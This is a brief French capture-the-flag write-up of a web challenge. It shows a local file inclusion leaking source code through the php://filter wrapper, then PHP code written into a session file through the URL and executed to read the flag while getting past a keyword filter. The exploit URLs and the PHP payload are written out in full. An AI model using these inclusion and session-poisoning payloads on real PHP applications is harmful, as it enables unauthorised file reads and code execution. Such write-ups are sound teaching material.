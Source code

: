 # Web - Bestiary

Faille LFI détectable avec l'ajout d'un `'` dans l'argument `monster`.

```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php
```
On recupere le contenu du fichier index.php grace au wrapper `php://`

On voit que le fichier de session est modifiable et accessible en lecture.

On voit que notre cooki de session est `PHPSESSIONID=97f1eeda9ea2d3a323571f9a9ee199aa;`,
donc notre fichier session est `sessions/sess_97f1eeda9ea2d3a323571f9a9ee199aa`.

On utilise le payload suivant pour lire le flag (sans contenir 'flag').

```php
<?php $suite='g.php'; include ('php://filter/convert.base64-encode/resource=fla'.$suite); ?>
```

On met à jour le fichier session
`http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php $suite='g.php'; include ('php://filter/convert.base64-encode/resource=fla'.$suite); ?>sessions/sess_97f1eeda9ea2d3a323571f9a9ee199aa`

On l'execute
`http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=sessions/sess_97f1eeda9ea2d3a323571f9a9ee199aa`
